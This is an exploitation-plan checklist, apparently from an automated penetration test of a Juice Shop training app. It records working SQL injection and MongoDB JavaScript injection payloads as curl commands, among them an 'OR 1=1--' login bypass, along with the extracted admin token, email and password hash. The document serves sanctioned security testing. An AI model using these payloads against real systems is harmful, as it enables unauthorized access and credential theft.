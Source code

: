 # SQL Injection Exploitation Plan

## Attack Queue from Analysis Phase

- [x] **SQLI-VULN-01:** Exploit `/rest/user/login` endpoint (email parameter) - Raw SQL template literal concatenation
  - [x] **Stage 1 (Confirmation):** Test basic SQL injection with single quote and boolean conditions
    - **Result:** SUCCESS. Single quote triggered 500 database error from Sequelize SQLite query
    - **Command:** `curl -X POST ... -d '{"email":"admin'\''","password":"test"}'`
  - [x] **Stage 1.2:** Test boolean condition bypass
    - **Result:** COMPLETE SUCCESS! Authentication bypass successful
    - **Command:** `curl ... -d '{"email":"admin'\'' OR 1=1--","password":"test"}'`
    - **Critical Data Extracted:** 
      - Admin JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9...
      - Admin Email: admin@juice-sh.op
      - MD5 Password Hash: 01920223a7bbd73250516f069df18b500
      - Role: admin
  - [x] SKIPPED - Sufficient evidence collected. Authentication bypass with admin credentials extracted.
- [x] **SQLI-VULN-02:** Exploit `/rest/products/search` endpoint (q parameter) - Raw SQL template literal concatenation
  - [x] **Stage 1 (Confirmation):** Test basic SQL injection with single quote
    - **Result:** SUCCESS. SQLite syntax error: SQLITE_ERROR: near "'%'": syntax error
    - **Command:** `curl "...search?q=test'"`
  - [x] SKIPPED - Sufficient evidence collected. SQLi confirmed with detailed error messages.
- [x] **SQLI-VULN-03:** Exploit `/rest/track-order/:id` endpoint (id parameter) - MongoDB NoSQL JavaScript injection
  - [x] **Stage 1 (Confirmation):** Test JavaScript injection in MongoDB $where clause
    - **Result:** SUCCESS. JavaScript code execution confirmed
    - **Evidence:** `test'||'1'=='1'||'` returned orderId "test11" proving '1'=='1' evaluated
    - **Command:** `curl ".../track-order/test'%7C%7C'1'%3D%3D'1'%7C%7C'"`
  - [x] SKIPPED - Sufficient evidence collected. JavaScript code execution in MongoDB confirmed.

## Key Intelligence
- **Target:** https://ai-pentesting.tailfd50b7.ts.net:3001/
- **Database:** SQLite 3 for VULN-01 and VULN-02, MongoDB for VULN-03
- **Defenses:** Minimal input validation, no WAF evidence
- **Error disclosure:** Raw database errors returned to client